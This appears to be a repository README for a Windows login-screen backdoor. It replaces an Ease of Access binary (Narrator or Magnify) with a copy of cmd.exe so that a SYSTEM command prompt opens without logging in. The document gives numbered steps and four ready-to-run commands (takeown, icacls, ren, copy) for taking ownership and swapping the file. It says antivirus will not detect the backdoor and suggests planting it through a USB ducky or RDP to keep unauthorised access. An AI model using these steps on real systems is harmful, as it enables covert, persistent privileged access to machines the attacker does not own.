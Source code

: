 # Inconspicuous Windows Backdoor

This is relatively quite a new backdoor and is pretty discreet in nature but the attack scenario related to this might be a little difficult to find and implement.
One would be if we've unsupervised access to a windows machine and in order to lurk our way back in and maintain access.

### Concept & PoC
While logging into Windows (post Windows XP), there is an "Ease of Access" icon there which is very much overlooked. We will we using that option to base our PoC upon.

![win10-login](https://user-images.githubusercontent.com/55345666/156610461-8d0440d9-df47-4e08-bb6f-59bd0317b790.jpg)
![Windows-10-ease-of-access](https://user-images.githubusercontent.com/55345666/156608016-59a130b7-3ab4-41df-b7d0-dfd14cdcff4a.png)

As we can see in the options, we can execute quite a few applications with the **Ease of Access** menu, like **Magnifier.exe**, **Narrator.exe**, etc.
What the main idea is that we would be replacing one of these programs with a command prompt which we will be able to execute with **system** permissions without even logging into windows.

1. Log into windows, browse to **"C:\Windows\System32\"**, find **"Narrator.exe"** and try to rename it. You should see a message popping up regarding the file permissions.
2. It says we've only read/write permissions regarding that file and the owenership of the file belongs to "**TrustedInstaller**", but this access control feature can be disabled.
3. Go to Properties > Security > Advanced > Owner > Edit. There you can set the administrator as the new owner and save the settings. Once that is done go back to Properties > Security > Edit and give the administrator full access to the file.
4. Now we can rename **"Narrator.exe"** to whatever we want. Take a copy of **"cmd.exe"** and rename it to **"Narrator.exe"**. Once you log-out and access the menu again **command prompt** will pop up if we try to get the narrator to help us log in.

The following can be done easily via just 4 commands:

``
takeown /f "C:\Windows\System32\Magnify.exe"
``

``
icacls "C:\Windows\System32\Magnify.exe" /grant administrators:F
``

``
ren "C:\Windows\System32\Magnify.exe" "Magnify_back.exe"
``

``
copy "C:\Windows\System32\cmd.exe" "C:\Windows\System32\Magnify.exe"
``

This is a pretty neat backdoor and won't even get picked up by any antivirus softwares.
It can either be deployed through a USB ducky, RDP service or using an unauthenticated system 

### Reference Links:
http://fuzzysecurity.com/tutorials/11.html

https://www.greyhathacker.net/?p=50
